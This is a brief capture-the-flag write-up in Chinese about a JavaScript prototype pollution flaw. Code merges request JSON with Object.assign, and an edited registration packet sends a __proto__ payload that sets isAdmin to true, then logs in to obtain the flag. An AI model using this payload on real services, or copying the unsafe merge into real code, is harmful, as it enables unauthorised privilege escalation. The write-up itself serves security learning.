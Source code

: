 注意这部分

```js
let user = JSON.parse(req.body)  
// ...
let newUser = Object.assign({}, baseUser, user)  // 将用户输入合并到新对象
```

```Object.assign```能触发原型链污染，```let newUser = Object.assign({}, baseUser, user)```的作用是把baseUser和user的属性合并后拷贝到{}中，即newUser是baseUser和user的集合体。baseUser猜测是user类似父类的东西，user是上面```{"username":"a","password":"b","isAdmin":false}```部分了

随便输个邀请码提交，抓包

![image-20250719223119296](assets/image-20250719223119296.png)

```js
payload：
{"username":"e","password":"e","__proto__":{"isAdmin":true}}
```

改一下包

![image-20250719230033482](assets/image-20250719230033482.png)

然后登陆就拿到了flag

![image-20250719230048923](assets/image-20250719230048923.png)
